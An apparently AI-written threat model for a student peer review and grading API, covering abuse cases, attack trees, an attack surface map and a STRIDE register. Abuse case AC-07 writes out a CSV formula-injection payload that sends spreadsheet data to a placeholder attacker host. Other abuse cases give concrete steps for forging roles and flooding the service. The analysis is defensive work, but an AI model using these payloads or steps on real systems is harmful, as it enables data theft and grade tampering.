





<!-- AI_DELIVERABLE_METADATA -->
## AI Deliverable Metadata Block

| Field | Value |
|---|---|
| Deliverable | `project-assignment-2/security-analysis.md` (CS763 PA2) |
| Author of record | Saniya Bhambhvani |
| AI tool | Claude (Anthropic) agent, Claude Code / Agent SDK harness in the Claude desktop app (see `/Agent_environment.md`) |
| Model | `claude-opus-5-5` (Claude Opus 5.5) |
| Conceptual AI contribution | **~100% AI generated / 0% human edits.** Reviewed and signed off by the student (see Human verification status) |
| Inputs given to the AI | `CS763_ProjectDescription.pdf` (PA2 section), `ProjectPortalDomainServices.pdf` (Domain 3), `project-assignment-2/functional-codebase/` at commit `b26062f`, its pipeline log, and `sast-triage-report.md` |
| Techniques used | Asset identification, security requirements, abuse cases, attack trees (AND/OR), attack surface mapping, DFD with trust boundaries, STRIDE per element, mitigation planning |
| Prompt summary | "Security analysis: security requirements, abuse cases, attack trees for 3+ abuse cases, an attack surface map, a DFD with a STRIDE matrix for every component, and mitigations for everything found. Base it on this codebase, not generic examples." (full verbatim prompt in [`/.ai_logs/pa2-session-log.md`](../.ai_logs/pa2-session-log.md)) |
| Session link | https://claude.ai/code/session_01Mj79JHpoGSSrKQhMcsCbL5 |
| Human verification status | **Reviewed and signed off by the student (Saniya Bhambhvani), 2026-11-17.** |

---
<!-- /AI_DELIVERABLE_METADATA -->

# Security Analysis — Peer Review & Evaluation Gateway (Domain 3)

Analysis of the architecture the AI agent built in PA2 (`project-assignment-2/functional-codebase/`, commit `b26062f`). Vulnerability IDs `V-xx` refer to [`sast-triage-report.md`](sast-triage-report.md); threat IDs `T-xx` are defined in section 6; mitigations `M-xx` in section 7.

## Contents

1. [System as built](#1-system-as-built)
2. [Security requirements](#2-security-requirements-defensive-baseline)
3. [Abuse cases](#3-abuse-cases)
4. [Attack trees](#4-attack-trees)
5. [Attack surface map](#5-attack-surface-map)
6. [DFD and STRIDE](#6-data-flow-diagram-and-stride)
7. [Proposed mitigations](#7-proposed-mitigations)
8. [Assumptions and open questions](#8-assumptions-and-open-questions)

## 1. System as built

| Component | Code | What it does |
|---|---|---|
| HTTP edge | `src/app.ts`, `src/routes/evaluations.ts` | Express 5, `express.json({ limit: "1mb" })`, 12 business routes under `/api/v1/evaluations`, 3 probes, a 404 handler and a global error handler. No authentication, authorization, rate limiting or request logging |
| Rubric service | `src/services/rubrics.ts` | Rubric CRUD; recursive insert of nested criteria; `recomputeBindings` chooses each project's governing rubric (project > course > lab, newest first); "in use" = has reviews |
| Review & scoring service | `src/services/reviews.ts`, `src/services/scoring.ts` | Review CRUD; takes `reviewer_id` and `reviewer_role` from the body; computes weighted total, letter grade, grade points; hides peer identity only in API output |
| Aggregation & report service | `src/services/aggregation.ts` | Per-project summary split into faculty and peer blocks; consolidated course/lab report as JSON or CSV with optional raw comments; composite = 70% faculty + 30% peer |
| Startup | `src/server.ts`, `src/schema.ts`, `src/mock/data.ts` | Runs the full schema DDL and seeds mock users/courses/labs/projects on every start, retrying 30 times |
| Database | PostgreSQL 17 container (`docker-compose.yml`) | Single account from `POSTGRES_USER` (a superuser in the official image); not published to the host; data in the `prg-db-data` volume |
| Runtime | Root `Dockerfile` | `node:22-alpine`, non-root `node` user, `read_only` root filesystem, `no-new-privileges`, port bound to `127.0.0.1:3000` |

### Assets

| ID | Asset | Why it matters | Security property |
|---|---|---|---|
| A1 | Review scores and computed grades (`reviews`, `review_scores`) | Final course grades are derived from them | Integrity (highest) |
| A2 | Peer reviewer identity (`reviews.reviewer_id` where `reviewer_role = 'student_peer'`) | The spec requires anonymous peer review; exposure enables retaliation | Confidentiality |
| A3 | Review comments and per-criterion feedback | Candid academic feedback, education records | Confidentiality, integrity |
| A4 | Rubrics, criteria and project bindings | Decide how every project is graded | Integrity |
| A5 | Aggregated reports (`/summary`, `/reports`) | Contain every grade in a course or lab | Confidentiality |
| A6 | Database credentials (`POSTGRES_PASSWORD`, `DATABASE_URL`) | Full control of A1–A5 | Confidentiality |
| A7 | Service availability during grading windows | Reviews must be submitted before deadlines | Availability |
| A8 | Instructor workstations that open exported CSV files | Outside the service, but reached through it | Integrity |

## 2. Security requirements (defensive baseline)

Each requirement is testable and is traced to the finding or threat it closes. Requirements marked **PA3-min** are the PA3 minimum requirements.

### 2.1 Role and permission matrix (target state)

Roles come from verified token claims, never from the request body. "Course faculty" means a `faculty_instructor` assigned to the project's course or lab.

| Endpoint | Unauthenticated | Student (not on project) | Student (project member) | Course faculty | Other faculty |
|---|---|---|---|---|---|
| `GET /health`, `/api/v1` | ✅ | ✅ | ✅ | ✅ | ✅ |
| `GET /health/ready` | internal network only | ❌ | ❌ | ❌ | ❌ |
| `POST /rubrics` | ❌ | ❌ | ❌ | ✅ (scope inside own course/lab) | ❌ |
| `GET /rubrics`, `GET /rubrics/:id` | ❌ | ✅ own courses | ✅ own courses | ✅ | ✅ own courses |
| `PUT`, `DELETE /rubrics/:id` | ❌ | ❌ | ❌ | ✅ only if not in use | ❌ |
| `POST /projects/:id/reviews` | ❌ | ✅ as `student_peer`, once, same course | ❌ (conflict of interest) | ✅ as `faculty_instructor`, once | ❌ |
| `GET /projects/:id/reviews` | ❌ | own review only | anonymized feedback, after release | ✅ (peer identity masked) | ❌ |
| `GET`/`PUT /projects/:id/reviews/:rid` | ❌ | author only | read-only, anonymized | read; edit own reviews | ❌ |
| `DELETE /projects/:id/reviews/:rid` | ❌ | author only, before deadline | ❌ | ✅ (moderation, audited) | ❌ |
| `GET /projects/:id/summary` | ❌ | ❌ | ✅ own project | ✅ | ❌ |
| `GET /reports` | ❌ | ❌ | ❌ | ✅ own course/lab only | ❌ |

### 2.2 Requirements

| ID | Requirement | Closes |
|---|---|---|
| **Authentication** | | |
| SR-01 | Every route except `/health` and `/api/v1` requires a bearer JWT. Signatures are verified with **RS256 or ES256 only**; tokens with `alg: none`, `HS256` or any other algorithm are rejected. Keys come from the issuer's JWKS. **PA3-min (1)** | V-01, T-01, T-03, T-05 |
| SR-02 | `exp`, `iss` and `aud` are validated on every request (small clock-skew allowance); missing claims are rejected. **PA3-min (2)** | V-01, T-05 |
| SR-03 | The caller's user id and role are read **only** from verified claims. `reviewer_id`, `reviewer_role` and `created_by` in request bodies are ignored or rejected | V-03, T-03, T-16, T-24 |
| **Authorization** | | |
| SR-04 | Function-level authorization enforces the matrix in 2.1, deny by default | V-04, T-13, T-14, T-26 |
| SR-05 | Row-level authorization on reviews (the primary resource): only the author may update; only the author or course faculty may delete; reads follow 2.1. **PA3-min (3)** | V-02, T-20, T-22 |
| SR-06 | Faculty actions are limited to projects in courses/labs listed in their token claims or the mock enrollment data | V-04 |
| SR-07 | A user listed in `project_members` cannot review that project | V-06, T-21 |
| SR-08 | At most one review per (`project_id`, `reviewer_id`), enforced by a database `UNIQUE` constraint | V-06, T-21 |
| **Input validation (PA3-min (5))** | | |
| SR-09 | All write bodies (`POST`/`PUT` rubrics and reviews) are validated against a strict schema: required fields, types, string lengths (title ≤ 200, comment ≤ 5 000), unknown fields rejected | V-05, T-19 |
| SR-10 | Each score is a finite number with `0 ≤ score ≤ max_points` of its criterion; every leaf criterion of the **governing** rubric is scored exactly once; criteria from other rubrics are rejected | V-05, T-19 |
| SR-11 | Rubric trees are limited (e.g. depth ≤ 4, ≤ 50 criteria); `weight > 0`; leaf `max_points > 0`; `scope_type` in the allowed set and `scope_id` must exist | V-05, V-10, T-18 |
| SR-12 | Query parameters are validated (UUID format for ids, numeric `min_score` 0–100, enumerated `sort`/`order`/`format`); list endpoints are paginated (default 50, max 200) | V-10, T-27 |
| **Data protection** | | |
| SR-13 | The domain's designated sensitive field is encrypted at the application layer with AES-256-GCM; the key is read from an environment variable and never committed. **PA3-min (4)** | V-12, T-33 |
| SR-14 | Peer anonymity: peer reviewer identity is never returned by any endpoint; peer statistics are shown only when at least 3 peer reviews exist, to stop inference from small groups | V-12, T-22 |
| SR-15 | Traffic that leaves the host uses TLS (reverse proxy in front of the app; `sslmode=require` if the database is ever remote) | T-10, T-43, T-44 |
| **State and integrity** | | |
| SR-16 | Once a rubric has a review, its criteria, weights, scope and title cannot change. The check and the change happen in one transaction with a row lock (or a database trigger) | V-07, T-15 |
| SR-17 | A review is stored against the rubric that governs the project at commit time; reading the binding and inserting the review happen in one transaction with the binding row locked | V-07, T-15 |
| **Output and errors** | | |
| SR-18 | Every CSV cell beginning with `=`, `+`, `-`, `@`, tab or carriage return is prefixed with `'` before export | V-08, T-25, T-28 |
| SR-19 | 5xx responses return a generic message and a correlation id; known client errors (bad JSON, too large, constraint violations) map to 400/409/413 without internal details | V-09, T-11 |
| **Accountability** | | |
| SR-20 | Every create/update/delete of a rubric or review writes an audit record (actor id from token, action, object id, timestamp, before/after score hash) to an append-only table | T-02, T-04, T-06, T-35 |
| SR-21 | Requests are logged (method, path template, status, latency, user id, correlation id) without bodies, comments or tokens | T-06, T-39 |
| **Availability** | | |
| SR-22 | Per-user and per-IP rate limits on write endpoints and `/reports` | T-12, T-23, T-27 |
| SR-23 | Request timeout and statement timeout (e.g. 5 s) so one slow report cannot hold pool connections | T-34 |
| **Platform** | | |
| SR-24 | The app connects with a least-privilege role (`SELECT/INSERT/UPDATE/DELETE` on its tables only); schema migrations run with a separate role, not at every app start | V-11, T-29, T-31 |
| SR-25 | The runtime image is rebuilt on a patched base and does not ship the npm CLI | TV-01…TV-24 |
| SR-26 | Secrets are provided only through environment/secret stores; CI third-party actions are pinned to commit SHAs | T-08, T-42 |

## 3. Abuse cases

Each abuse case uses the real endpoints and the behaviour of the current code. "Today" describes what happens against the PA2 build.

| ID | Actor | Goal | Steps against this service | Today | Findings | Requirements that stop it |
|---|---|---|---|---|---|---|
| AC-01 | Student on project P | Raise P's grade by posing as faculty | 1. `GET /rubrics?project_id=P` to read criterion ids. 2. `POST /projects/P/reviews` with `"reviewer_role": "faculty_instructor"`, any `reviewer_id`, full marks (or `score: 1000`) | Accepted; counted in the faculty block, which drives 70% of the composite | V-01, V-03, V-05 | SR-01, SR-03, SR-04, SR-07, SR-10 |
| AC-02 | Student | Stuff the peer block for their own project, or tank a rival's | Loop `POST /projects/P/reviews` as `student_peer` 50× with 100 (own) or 0 / negative scores (rival) | All 50 stored; peer mean and std dev skewed | V-06, V-05 | SR-07, SR-08, SR-10, SR-22 |
| AC-03 | Student | Lower a rival project's faculty grade or erase it | 1. `GET /projects/R/reviews?reviewer_role=faculty_instructor` to get the review id. 2. `PUT …/reviews/:rid` with zeros, or `DELETE` it | Succeeds silently; no audit trail | V-01, V-02 | SR-05, SR-20 |
| AC-04 | Student | Move their project onto a lenient rubric before grading | `POST /rubrics` with `scope_type: "project"`, `scope_id: P`, one criterion worth full marks. `recomputeBindings` makes it govern P because project scope outranks course | P is now graded on the student's rubric | V-04, V-07 | SR-04, SR-16 |
| AC-05 | Any network caller | Harvest every grade and comment in a course | `GET /reports?course_id=CS763&include_comments=true&format=json`, repeat for each course/lab | Full grade matrix and all comments returned | V-01, V-04 | SR-01, SR-04, SR-13 |
| AC-06 | Reviewee, or anyone with DB/backup access | Find out which classmate wrote a harsh peer review | (a) Read `reviews.reviewer_id` in cleartext from the DB or a volume backup. (b) Compare `created_at` of each peer review (returned by `GET …/reviews`) with when classmates were known to be online. (c) Faculty member files reviews as `student_peer` to hide behind anonymity | (a) and (c) work fully; (b) narrows candidates | V-12, V-03 | SR-03, SR-13, SR-14 |
| AC-07 | Student, or anyone who can send the instructor a link | Compromise or phish the instructor through the grade report | (Stored) Put `=HYPERLINK("http://attacker.example/?"&B5,"Open rubric")` in a review `comment` (or a criterion title) and wait for the instructor to download `/reports?course_id=…&include_comments=true`. (Reflected) Send the instructor a link `/reports?lab_id==HYPERLINK(…)`; the value is echoed into the CSV header line | Formula is live in the spreadsheet; data from other cells can leak through the link | V-08 (SonarQube SQ-01 traced the reflected path) | SR-09, SR-12, SR-18 |
| AC-08 | Any caller | Make the service unusable right before a grading deadline | (a) `POST /rubrics` with a 1 MB body of tens of thousands of nested `subcriteria`. (b) Many concurrent `GET /reports` over all projects to tie up the 10-connection pool. (c) Reviews with `score: "x"` or no `scores` to raise a stream of 500s | (a) thousands of INSERTs and deep recursion on later reads; (b) pool exhaustion; (c) 500s with internal messages | V-10, V-05, V-09 | SR-11, SR-12, SR-22, SR-23 |
| AC-09 | Attacker doing reconnaissance | Learn the database schema to plan further attacks | Send malformed bodies (`created_by: "x"`, duplicate `criterion_id`, missing `title`, broken JSON) and read the `error.message` | Table, column and constraint names returned | V-09 | SR-19 |

## 4. Attack trees

Notation: **OR** = any child achieves the parent; **AND** = all children are needed. Leaves are tagged with feasibility against the PA2 build: 🟥 trivial today, 🟧 needs extra access or timing, 🟩 blocked today.

### AT-1 — Raise my own project's final grade (AC-01, AC-02, AC-04)

| Leaf | Required attacker capability | Cheapest mitigation |
|---|---|---|
| 1.1 | Network access to port 3000 | M-01 + M-03 (identity and role from token) |
| 1.2, 2.3, 4.1 | Knowing a review id (listed by `GET …/reviews`) | M-02 (row-level authorization) |
| 1.3 | None | M-05 (score bounds) |
| 2.1, 2.2 | None | M-06 (unique constraint + conflict-of-interest check) |
| 3.1–3.2 | None | M-04 (only course faculty write rubrics) |
| 3.3 | Precise timing | M-07 (lock inside transaction) |

### AT-2 — Obtain confidential grades and unmask peer reviewers (AC-05, AC-06, AC-09)

Highest-value branch: **1.1** — one unauthenticated request returns a whole course. Fixing V-01/V-04 (M-01, M-04) closes branch 1; M-12 (encryption) and M-11 (least privilege) close branch 2; M-13 (k ≥ 3 and coarse timestamps for peers) weakens branch 3; M-03 closes branch 4.

### AT-3 — Sabotage grading of a course or a rival project (AC-03, AC-08)

### AT-4 — Run attacker content on the instructor's machine via the CSV export (AC-07)

Cutting any AND branch stops the attack; the reliable cut is step 1 at output time (M-08, neutralize on export), because stored data may be exported by other tools later.

## 5. Attack surface map

Every exposed entry point of the service, its deployment and its pipeline. Risk = likelihood × impact for the PA2 build. **Bold rows are the highest-risk vectors.**

| ID | Entry point | Inputs an attacker controls | Assets reached | Current control | Findings | Risk |
|---|---|---|---|---|---|---|
| EP-01 | `GET /health` | – | none | none needed | – | Low |
| EP-02 | `GET /health/ready` | – | DB reachability | none | – | Low |
| EP-03 | `GET /api/v1` | – | service name/version | none | – | Low |
| EP-04 | **`POST /evaluations/rubrics`** | whole body: `title`, `scope_type`, `scope_id`, `created_by`, nested `criteria` (weights, max_points, depth) | A4, A7 | DB NOT NULL/CHECK only | V-01, V-04, V-05, V-08, V-10 | **High** |
| EP-05 | `GET /evaluations/rubrics` | `project_id`, `course_id`, `lab_id` | A4 | parameterized SQL | V-01, V-10 | Medium |
| EP-06 | `GET /evaluations/rubrics/:id` | `rubric_id` | A4 | parameterized SQL | V-01 | Low |
| EP-07 | **`PUT /evaluations/rubrics/:id`** | `rubric_id`, body incl. new `scope_*` and criteria | A1, A4 | "in use" check outside tx | V-04, V-07 | **High** |
| EP-08 | `DELETE /evaluations/rubrics/:id` | `rubric_id` | A4 | "in use" check, FK on reviews | V-04, V-07 | Medium |
| EP-09 | `GET /evaluations/projects/:id/summary` | `project_id` | A1, A5 | peer identity not included | V-01, V-04 | Medium |
| EP-10 | **`POST /evaluations/projects/:id/reviews`** | `project_id`, `reviewer_id`, `reviewer_role`, `rubric_id`, `comment`, `scores[]` | A1, A2, A3, A8 | governing-rubric match, FK checks | V-01, V-03, V-05, V-06, V-07, V-08 | **Critical** |
| EP-11 | `GET /evaluations/projects/:id/reviews` | `project_id`, `min_score`, `reviewer_role`, `sort`, `order` | A1, A3, peer timing (A2) | sort allowlist; peer id masked | V-01, V-10 | Medium |
| EP-12 | `GET …/reviews/:rid` | `project_id`, `review_id` | A1, A3 | id must match project | V-02 | Medium |
| EP-13 | **`PUT …/reviews/:rid`** | ids, `comment`, `scores[]` | A1, A3 | none beyond id match | V-02, V-05, V-08 | **Critical** |
| EP-14 | **`DELETE …/reviews/:rid`** | ids | A1 | none beyond id match | V-02 | **Critical** |
| EP-15 | **`GET /evaluations/reports`** | `course_id`, `lab_id`, `project_id`, `min_score`, `sort`, `order`, `include_comments`, `format` | A1, A3, A5, A8 | CSV quoting only | V-01, V-04, V-08, V-10 | **High** |
| EP-16 | Any route: JSON parser, 404 and error handler | malformed JSON, oversize body, unknown paths | schema details | 1 MB limit | V-09 | Medium |
| EP-17 | Environment / `.env` (`POSTGRES_PASSWORD`, `DATABASE_URL`) | host or CI access | A6 | `.env` git-ignored, `:?` guard | V-11 | Medium |
| EP-18 | PostgreSQL 5432 on `prg-net` | another container on the network, volume backups | A1–A6 | not published to host; no TLS; superuser login | V-11, V-12 | Medium |
| EP-19 | Container stdout logs | – (sink) | error details incl. constraint key values | none | V-09 | Low |
| EP-20 | CI/CD (`.github/workflows/devsecops.yml`) | pull requests, third-party actions pinned by tag, `SONAR_TOKEN` secret | pipeline integrity | `permissions: contents: read` | – | Medium |
| EP-21 | Downloaded CSV opened in a spreadsheet | stored comment/criterion text | A8 | none | V-08 | High |
| EP-22 | Mock reference data (`src/mock/data.ts`) | repository write access | user roles, project membership | code review | – | Low |
| EP-23 | Base image and npm dependencies | upstream supply chain | runtime | Trivy scans (non-blocking) | TV-01…TV-24 | Medium |

**Highest-risk vectors:** EP-10, EP-13 and EP-14 change grades directly with no identity check; EP-15 exports a whole course's grades in one call; EP-04/EP-07 let anyone change how projects are graded. Together these are the PA3 priority.

## 6. Data flow diagram and STRIDE

### 6.1 DFD (level 1)

| Element | Type | Notes |
|---|---|---|
| E1 Faculty client, E2 Student client | External entity | Today both are indistinguishable from E3 |
| E3 Unauthenticated caller | External entity | Anyone who can reach `127.0.0.1:3000` (or the published port in a real deployment) |
| E4 Spreadsheet app | External entity | Receives the CSV file outside the system |
| E5 Operator / GitHub Actions | External entity | Starts containers, holds secrets, runs scans |
| P1–P5 | Processes | See section 1 |
| DS1, DS2 | Data stores | Same PostgreSQL database, split by owner (this service vs mock reference data) |
| DS3 | Data store | Container stdout/stderr |
| DS4 | Data store | Host `.env` and container environment |
| F1–F9 | Data flows | As labelled in the diagram |

### 6.2 STRIDE matrix

Applied per element: external entities (S, R), processes (all six), data stores (T, R, I, D), data flows (T, I, D). Cells list threat IDs from 6.3; "–" means the category does not apply to that element type; "○" means considered and no material threat found.

| Element | S | T | R | I | D | E |
|---|---|---|---|---|---|---|
| E1 Faculty client | T-01 | – | T-02 | – | – | – |
| E2 Student client | T-03 | – | T-04 | – | – | – |
| E3 Unauthenticated caller | T-05 | – | T-06 | – | – | – |
| E4 Spreadsheet app | ○ | – | ○ | – | – | – |
| E5 Operator / CI | T-08 | – | ○ | – | – | – |
| P1 HTTP edge | T-05 | T-10 | T-06 | T-11 | T-12 | T-13 |
| P2 Rubric service | T-05 | T-14, T-15 | T-16 | T-17 | T-18 | T-13 |
| P3 Review & scoring | T-03 | T-19, T-20, T-21 | T-04 | T-22 | T-23 | T-24 |
| P4 Aggregation & report | T-05 | T-25 | ○ | T-26 | T-27 | T-28 |
| P5 Startup | ○ | T-29 | ○ | ○ | T-30 | T-31 |
| DS1 Evaluation tables | – | T-32 | T-35 | T-33 | T-34 | – |
| DS2 Reference tables | – | T-36 | ○ | T-37 | ○ | – |
| DS3 Container logs | – | T-38 | T-06 | T-39 | T-40 | – |
| DS4 Config & secrets | – | T-41 | ○ | T-42 | ○ | – |
| F1 Client → app | – | T-10 | – | T-43 | T-12 | – |
| F2 App → client | – | T-10 | – | T-43 | ○ | – |
| F3 In-process calls | – | ○ | – | ○ | ○ | – |
| F4 App ↔ DB (SQL) | – | T-44 | – | T-44 | T-34 | – |
| F5 Reference lookups | – | ○ | – | ○ | ○ | – |
| F6 App → logs | – | ○ | – | T-39 | T-40 | – |
| F7 Env injection | – | T-41 | – | T-42 | ○ | – |
| F8 DDL and seed | – | T-29 | – | ○ | T-30 | – |
| F9 CSV report → spreadsheet | – | T-45 | – | T-46 | – | – |

### 6.3 Threat register

Likelihood (L) and impact (I) are High/Medium/Low for the PA2 build; risk is their combination.

| ID | STRIDE | Element | Threat (specific to this code) | Finding | L | I | Risk | Mitigation |
|---|---|---|---|---|---|---|---|---|
| T-01 | S | E1 | Anyone submits or edits reviews as a faculty member because identity and role come from the body | V-01, V-03 | H | H | **Critical** | M-01, M-03 |
| T-02 | R | E1 | A faculty member denies changing a grade; `reviews` has only `updated_at`, no actor or history | – | M | H | High | M-15 |
| T-03 | S | E2, P3 | A student submits reviews as another student (`reviewer_id` from body) | V-03 | H | H | **Critical** | M-01, M-03 |
| T-04 | R | E2, P3 | A peer denies ballot stuffing or an abusive comment; anonymity plus no audit trail leaves nothing to attribute | V-06 | H | M | High | M-06, M-15 |
| T-05 | S | E3, P1, P2, P4 | Unauthenticated caller reaches every business function | V-01 | H | H | **Critical** | M-01 |
| T-06 | R | E3, P1, DS3 | No request or audit logging; anonymous actions leave no trace | – | H | M | High | M-15, M-16 |
| T-08 | S | E5 | CI actions are pinned by tag (`@v5`, `@v6`); a moved tag runs attacker code with `SONAR_TOKEN` | – | L | M | Low | M-21 |

| T-10 | T | P1, F1, F2 | Plain HTTP: requests/responses can be modified in transit once the service is exposed beyond localhost | – | L | H | Medium | M-14 |
| T-11 | I | P1 | Error handler returns raw DB/runtime messages; malformed JSON returns 500 with parser text | V-09 | H | M | High | M-09 |
| T-12 | D | P1, F1 | No rate limit; 1 MB bodies accepted on every write route | V-10 | H | M | High | M-10, M-17 |
| T-13 | E | P1, P2 | No function-level authorization: students reach faculty-only functions | V-04 | H | H | **Critical** | M-04 |
| T-14 | T | P2 | Rubric created/rescoped by a student to change which rubric governs a project | V-04 | H | H | **Critical** | M-04 |
| T-15 | T | P2, P3 | TOCTOU on "in use" and on governing rubric lets used rubrics change and reviews bind to the wrong rubric | V-07 | L | H | Medium | M-07 |
| T-16 | R | P2 | `created_by` is whatever the client sends, so rubric authorship is forgeable | V-03 | H | M | High | M-03, M-15 |
| T-17 | I | P2 | `bound_project_ids` reveal which projects belong to which rubric/course to any caller | V-01 | H | L | Medium | M-01, M-04 |
| T-18 | D | P2 | Deep/huge criteria trees: one INSERT per node, recursive reads | V-10 | M | M | Medium | M-10 |
| T-19 | T | P3 | Out-of-range, negative or foreign-rubric scores corrupt totals | V-05 | H | H | **Critical** | M-05 |
| T-20 | T | P3 | Any caller updates/deletes any review | V-02 | H | H | **Critical** | M-02 |
| T-21 | T | P3 | Duplicate and self reviews skew peer statistics | V-06 | H | H | **Critical** | M-06 |
| T-22 | I | P3 | Anyone can read all reviews and comments of any project; peer `created_at` aids de-anonymization | V-02, V-04 | H | M | High | M-02, M-13 |
| T-23 | D | P3 | Non-numeric or missing scores throw (`toGrade(NaN)`, `scores.map` on undefined) → 500 per request | V-05 | H | L | Medium | M-05, M-09 |
| T-24 | E | P3 | Student self-assigns `faculty_instructor` and gains faculty weight in grading | V-03 | H | H | **Critical** | M-03 |
| T-25 | T | P4 | Stored formula payloads are replayed into every CSV export | V-08 | H | M | High | M-08 |
| T-26 | I | P4 | `/reports` with `include_comments=true` exports a whole course to anyone | V-04 | H | H | **Critical** | M-01, M-04 |
| T-27 | D | P4 | Reports with no filter load every project, review and criterion mean in one request | V-10 | M | M | Medium | M-10, M-17, M-18 |
| T-28 | E | P4 | CSV formulas run with the instructor's spreadsheet privileges (link/exfiltration) | V-08 | M | H | High | M-08 |
| T-29 | T | P5, F8 | Schema DDL runs on every start under a superuser; a tampered build could alter or drop tables | V-11 | L | H | Medium | M-11 |
| T-30 | D | P5, F8 | Startup gives up after 30 DB retries and the container restarts in a loop | – | L | M | Low | M-18 |
| T-31 | E | P5 | Superuser connection: any future injection becomes full DB (and `COPY … PROGRAM`) control | V-11 | L | H | Medium | M-11 |
| T-32 | T | DS1 | Grades can be changed directly in the DB with no integrity check or history | V-11 | L | H | Medium | M-11, M-15 |
| T-33 | I | DS1 | Peer reviewer identity and comments stored in cleartext, also in volume backups | V-12 | M | H | High | M-12 |
| T-34 | D | DS1, F4 | 10-connection pool, no statement timeout: slow queries starve the service | V-10 | M | M | Medium | M-18 |
| T-35 | R | DS1 | No audit columns (`created_by` on reviews, change history) | – | H | M | High | M-15 |
